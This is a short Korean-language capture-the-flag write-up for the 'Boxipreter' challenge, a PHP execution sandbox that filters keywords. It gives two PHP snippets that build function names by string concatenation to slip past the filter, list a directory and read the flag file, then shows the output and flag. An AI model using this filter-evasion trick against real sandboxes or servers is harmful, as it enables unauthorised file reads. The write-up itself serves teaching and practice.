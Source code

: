# Boxipreter (880p)

## Overview
php ssh.....? this is so vulnerable....

http://121.170.91.18/Boxipreter

## Solution
그저 PHP를 실행하게 하는 데 어떤 것들을 필터링 하는 것 같다, 'file' 같은 키워드들을.

그래서 그런 필터링을 피하기 위해서 함수를 문자열로 저장하고 그 문자열로 호출 하는 PHP Trick을 사용했다

```php
<?php
$f = 'op'.'en'.'d'.'ir';
$dh = $f('../');
$f='re'.'a'.'dd'.'ir';
echo $f($dh).'<br>';
echo $f($dh).'<br>';
echo $f($dh).'<br>';
echo $f($dh).'<br>';echo $f($dh).'<br>';echo $f($dh).'<br>';echo $f($dh).'<br>';
echo $f($dh);

/*
=== result ===
flag
.htaccess
tmp
..
index.html
.
index.php
*/
?>
```

```php
<?php
$f = 'fil'.'e_'.'get_'.'contents';
$fl = $f('../f'.'lag');
echo $fl;
?>
```

클리어~~

## flag
dimi{B0x1Pr3teR_1s_ver7_@wesome_!1!}
